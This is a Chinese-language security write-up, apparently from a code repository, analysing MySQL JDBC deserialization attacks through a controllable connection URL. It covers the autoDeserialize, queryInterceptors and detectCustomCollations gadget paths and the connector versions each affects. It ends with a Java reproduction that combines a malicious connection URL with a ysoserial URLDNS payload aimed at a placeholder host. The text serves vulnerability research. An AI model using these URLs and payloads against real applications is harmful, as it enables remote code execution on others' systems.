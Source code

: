 - [Mysql JDBC 反序列化](#mysql-jdbc-反序列化)
  - [Mysql](#mysql)
    - [autoDeserialize](#autodeserialize)
    - [queryInterceptors](#queryinterceptors)
    - [ServerStatusDiffInterceptor](#serverstatusdiffinterceptor)
      - [ResultSetImpl#getObject](#resultsetimplgetobject)
    - [detectCustomCollations](#detectcustomcollations)
      - [总结](#总结)
    - [复现](#复现)
    - [参考](#参考)
# Mysql JDBC 反序列化
主要是当JDBC Mysql连接的url可控时的攻击面  
条件: JDBC连接的url可控.  
JDBC基础语法:
```
jdbc:mysql://[host][,failoverhost...]
    [:port]/[database]
    [?propertyName1][=propertyValue1]
    [&propertyName2][=propertyValue2]...
```
## Mysql
通过在JDBC连接时指定autoDeserialize,queryInterceptors等参数让服务器自动进行反序列化恶意数据。
### autoDeserialize
[官方文档](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-connp-props-blob-clob-processing.html#cj-conn-prop_autoDeserialize)  
该属性用于指示处理BLOB类型时驱动是否自动识别并反序列化BLOB字段的数据,默认为false.
![](1.png)
### queryInterceptors
[官方文档](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-connp-props-statements.html#cj-conn-prop_queryInterceptors)  
语句拦截器,用于在两条语句执行中间对结果进行修改,接受以逗号分隔并实现了`com.mysql.cj.interceptors.QueryInterceptor`类的class列表,并且为链式结构,处理结果从左到右依次传递.
![](2.png)

而在JDBC连接过程中会自动执行SET CHARSET,set autocommit=1等语句来初始化一些环境参数,就会触发`queryInterceptors`中指定的类执行。

不同版本的参数名有一些差异
1. 6.x版本：queryInterceptors->statementInterceptors.
2. 5.1.11以上版本: queryInterceptors->statementInterceptors.
3. 5.1.10及以下的5.1.X版本,queryInterceptors->statementInterceptors,需要连接后执行查询语句后才会触发Interceptors.
### ServerStatusDiffInterceptor
`ServerStatusDiffInterceptor`类就是实现了`com.mysql.cj.interceptors.QueryInterceptor`的子类，其中的`preProcess`表示在下一条语句执行前要执行的方法,代码如下
![](3.png)
其中调用了`populateMapWithSessionStatusValues`,在其中最后调用了`ResultSetUtil.resultSetToMap(toPopulate, rs);`
而在`resultSetToMap`中则会触发`ResultSet.getObject`  
```java
    public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
        while(rs.next()) {
            mappedValues.put(rs.getObject(1), rs.getObject(2));
        }

    }
```
#### ResultSetImpl#getObject
在ResultSetImpl#getObject的实现中,会根据字段类型做不同处理,当处理到blob字段类型时则会对字段数据进行反序列化,造成反序列化攻击。
![](4.png)
![](5.png)
### detectCustomCollations
在`ConnectionImpl`中,会对`SHOW COLLATION`返回结果调用`Util.resultSetToMap`进行处理，而`resultSetToMap`则和`ServerStatusDiffInterceptor`相同,最后走到`ResultSetImpl#getObject`触发反序列化。
![](8.png)
前提是`this.getDetectCustomCollations()`要为true,且最小版本要大于5.0.0。  
而detectCustomCollations这个选项在5.1.29之前一直为true,但我们也可以在参数中直接指定该变量为true。  
![](13.png)  
而在5.1.18及以下版本并未使用getObject(),无法触发。
![](18.png)
根据[参考文章](https://www.anquanke.com/post/id/203086#h2-4)说是由于从5.1.41版本开始，不再使用getObject的方式获取SHOW COLLATION的结果，此方法失效,实测是5.1.39以后,不再直接调用`ResultSetImpl#getObject`,但是对`SHOW COLLATION`结果的第三列直接调用了results.getObject(),最后还是进入的ResultSetImpl#getObject中.
![](9.png)
其中字段类型为-4,-3,-2(blob,bit,binary)时会进入`getObjectDeserializingIfNeeded`方法,直接用[恶意mysql服务器](https://github.com/fnmsd/MySQL_Fake_Server)的设置即可满足此条件.    
![](10.png)
该方法和之前类似进行了反序列化操作,其中通过`this.connection.getAutoDeserialize()`来确定是否进行反序列化,在url中同之前一样设置`autoDeserialize=true`即可.
![](11.png)
![](12.png)  

直到5.1.49才真正没有调用getObject().
![](14.png)
但在6.0.2开始,版本中却又直接调用了`ResultSetUtil.resultSetToMap`，又回到了`ServerStatusDiffInterceptor`那条链中,同样可以触发反序列化,实测直到6.0.6版本都是这样。
![](15.png)
![](17.png)

而在8.x版本获取`SHOW COLLATION`时又不一样了,才终于无法利用该点触发了。
![](16.png)
#### 总结
detectCustomCollations触发版本:5.1.18< version <=6.0.6(5.1.49除外)

### 复现
[恶意mysql服务器](https://github.com/fnmsd/MySQL_Fake_Server)  

```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class JDBC {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.cj.jdbc.Driver");

        Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor","yso_URLDNS_http://xxx.cn/", "pass");
        //Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/test?detectCustomCollations=true&autoDeserialize=true","yso_URLDNS_http://xxx.cn/", "pass");
    }
}

```
判断返回数据前两个字节是否为序列化数据的特征-84,-19,满足条件则进行反序列化.
![](6.png)

![](7.png)
### 参考
https://www.anquanke.com/post/id/203086#h2-4


